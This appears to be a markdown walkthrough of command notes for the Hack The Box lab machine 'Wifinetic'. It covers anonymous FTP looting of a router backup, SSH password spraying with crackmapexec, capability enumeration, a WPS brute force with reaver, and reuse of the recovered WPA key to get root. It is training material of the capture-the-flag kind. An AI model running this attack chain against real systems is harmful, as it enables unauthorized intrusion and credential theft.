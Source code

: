 # 💻 HTB: Wifinetic – Command Notes

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🧭 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.247
nmap -p 21,22,53 -sCV 10.10.11.247
nmap -sU --top 10 10.10.11.247
```

---

## 📁 [FTP](FTP) Enumeration

### Anonymous Login
```bash
ftp 10.10.11.247
# Use username: anonymous
```

### Download Files
```ftp
prompt off
mget *
```

---

## 🔍 File Review

- **backup-OpenWrt-2023-07-26.tar** → Extract and review WiFi config for WPA key:
```bash
tar xf backup-OpenWrt-2023-07-26.tar
cat etc/config/wireless
```

Look for lines like:
```
option key 'VeRyUniUqWiFIPasswrd1!'
```

---

## 📡 [DNS](DNS) Recon (TCP/UDP 53)

### Add Hosts Entry
```bash
echo "10.10.11.247 wifinetic.htb" | sudo tee -a /etc/hosts
```

---

## 👤 Shell as `netadmin`

### Bruteforce SSH Login with Known Password
Create user file `users` with contents from `/etc/passwd`:
```bash
crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
```

### SSH In
```bash
sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
```

---

## 🔍 Internal Enumeration

### Wireless Interfaces
```bash
ifconfig
iw dev
```

### Wireless Config (permissions restricted)
```bash
cat /etc/wpa_supplicant.conf
```

### SetUID & Capabilities
```bash
find / -perm -4000 -or -perm -2000 2>/dev/null
getcap -r / 2>/dev/null
```

Look for:
```
/usr/bin/reaver = cap_net_raw+ep
```

---

## 📶 WPA Brute Force – Reaver

### Target Details
- **Monitor Interface**: `mon0`
- **Target BSSID (AP MAC)**: `02:00:00:00:00:00`
- **Channel**: 1
- **SSID**: `OpenWrt`

### Run Reaver
```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv
```

Expect:
```
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

---

## 👑 Root Access

### Become Root via `su`
```bash
su -
# Password: WhatIsRealAnDWhAtIsNot51121!
```

### Or [SSH](SSH) as Root
```bash
sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
```

---

## 🔬 Beyond Root – Wash Analysis

### Why `wash -i mon0` hangs:
- `mon0` is monitor-mode and can **sniff** but not transmit.
- `wash` relies on **sending a probe** + sniffing response.
- Use `wlan2` instead for sending:
```bash
wash -i wlan2
```

### Both interfaces receive response:
- Running `wash -i wlan2` allows `wash -i mon0` to print results too (shared PHY).
